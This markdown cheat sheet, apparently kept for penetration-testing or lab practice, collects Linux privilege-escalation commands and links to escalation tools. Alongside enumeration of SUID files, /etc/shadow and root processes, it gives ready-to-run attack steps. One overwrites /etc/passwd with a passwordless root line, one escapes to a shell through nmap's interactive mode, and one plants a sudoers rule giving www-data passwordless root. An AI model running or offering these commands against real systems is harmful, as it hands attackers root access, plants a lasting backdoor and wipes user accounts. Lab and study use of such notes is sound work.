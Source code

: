 
# Linux Privilage Escalation Notes

* **Guide**

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

* **General Command**

Kernel version detection & Priv Check:
```
uname -a
cat /proc/version
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release      # Debian based
cat /etc/redhat-release   # Redhat based
cat /etc/shadow @Normal kullanıcı göremez
```

Services are Running as Root

```
ps aux | grep root
```


Find Suit & Guid Bit & Writeable Files
```
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -2 ! -type l -ls 2>/dev/null @Yazma yetkisi olan dosyalar
```

Try :)
```
sudo su
sudo -l
```

Edit passwd file 
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd
su
```

Nmap permissions

```
sudo nmap --interactive
!id
!cat /root/proof.txt
```

Network connections

```
netstat -ano
```

Metasploit Exploit Suggester

```
run post/multi/recon/local_exploit_suggester
```

Find something

```
cat config.php | grep db
```

***

## Automated Scripts:

* Linux Priv Checker:

https://www.securitysift.com/download/linuxprivchecker.py

* LinEnum:

https://github.com/rebootuser/LinEnum

* Linux Exploit Suggester:

https://github.com/mzet-/linux-exploit-suggester

* Old Linux Exploit SuggersteR:

https://github.com/PenturaLabs/Linux_Exploit_Suggester

* Linux Post Exploatation:

https://github.com/reider-roque/linpostexp

***

* Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```








